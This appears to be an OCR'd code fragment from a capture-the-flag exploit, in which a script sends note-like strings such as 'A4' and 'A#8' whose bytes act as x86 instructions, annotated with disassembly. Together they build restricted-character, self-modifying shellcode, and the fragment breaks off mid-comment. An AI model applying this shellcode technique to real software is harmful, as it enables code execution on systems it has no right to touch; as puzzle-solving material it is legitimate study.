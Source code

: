 ```
send("G0")
send("A0")
send("G2")
send("A0")
send("G3")



'''
; A4 B4 C6 A0 G1
inc    ecx ; A
xor    al, 0x42 ; 4B
xor    al, 0x43 ; 4C
ss     inc ecx ; 6A
xor    BYTE PTR [edi+0x31], al ; 0G1
'''
send("A4")
send("B4")
send("C6")
send("A0")
send("G1")


'''
; A4 A4 B6 A3 (3 is used in next step)
inc    ecx ; A
xor    al, 0x41 ; 4A
xor    al, 0x42 ; 4B
ss     inc ecx ; 6A
'''
send("A4")
send("A4")
send("B6")
send("A3")



'''
; 3 G0 A#8 
xor    eax, DWORD PTR [edi+0x30] ; 3G0
inc    ecx ; A
and    edi, DWORD PTR [eax] ; #8
'''
send("G0")
send("A#8")



'''
; A4 B4 C6 A#8
inc    ecx ; A
xor    al,0x42 ; 4B
xor    al,0x43 ; 4C
ss inc ecx ; 6A
and    edi,DWORD PTR [eax] ; #8
'''
send("A4")
send("B4")
send("C6")
send("A#8")


'''
```